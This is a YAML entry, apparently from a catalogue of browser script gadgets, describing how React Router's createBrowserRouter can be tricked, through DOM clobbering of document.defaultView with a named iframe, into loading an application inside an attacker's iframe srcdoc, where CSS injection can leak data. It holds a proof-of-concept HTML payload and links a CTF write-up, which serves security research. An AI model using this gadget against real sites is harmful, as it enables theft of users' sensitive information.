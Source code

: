 ```yaml
---
description: React Router is a multi-strategy router for React bridging the gap from React 18 to React 19. You can use it maximally as a React framework or minimally as a library with your own architecture.
github: remix-run/react-router
gadgets:
  Latest:
    authors:
      - twitter:Strellic_
    tags:
      - chrome-browser
      - safari-browser
      - iframe-tag
      - srcdoc-attr
      - wh-host-csp
      - any-timing
    pocs:
      - description: Based on how [React Router](https://github.com/remix-run/react-router) handles routes with [createBrowserRouter](https://reactrouter.com/6.30.0/routers/create-browser-router), it is possible to clobber the `document.defaultView` value with an iframe and reload the application. This allows a page to be loaded within a user-controlled `<iframe srcdoc>`. As a result, it may be possible to exfiltrate sensitive information using CSS.
        code: |
          <iframe srcdoc="
          <!DOCTYPE html>
          <html>
            <head>
              <style>
                /* CSS Injection HERE */
              </style>
              <script type='module' crossorigin src='/assets/index.7352e15a.js'></script>
            </head>
            <body>
              <iframe name='defaultView' src='/home'></iframe>
              <div id='root'></div>
            </body>
          </html>
          " style='width:50vw; height: 50vh'></iframe>
        preview: false
    more-info: |
      **More Info**

      Source: <a target="_blank" href="https://github.com/remix-run/history/blob/3e9dab413f4eda8d6bce565388c5ddb7aeff9f7e/packages/history/index.ts#L367">https://github.com/remix-run/history/blob/3e9dab413f4eda8d6bce565388c5ddb7aeff9f7e/packages/history/index.ts#L367</a>

      ```javascript
      export function createBrowserHistory(
        options: BrowserHistoryOptions = {}
      ): BrowserHistory {
        let { window = document.defaultView! } = options;
        let globalHistory = window.history;

        function getIndexAndLocation(): [number, Location] {
          let { pathname, search, hash } = window.location;
          let state = globalHistory.state || {};
          return [
            state.idx,
            readOnly<Location>({
              pathname,
              search,
              hash,
              state: state.usr || null,
              key: state.key || "default",
            }),
          ];
        }
      ```
    links:
      - https://brycec.me/posts/corctf_2022_challenges#modernblog
---
```

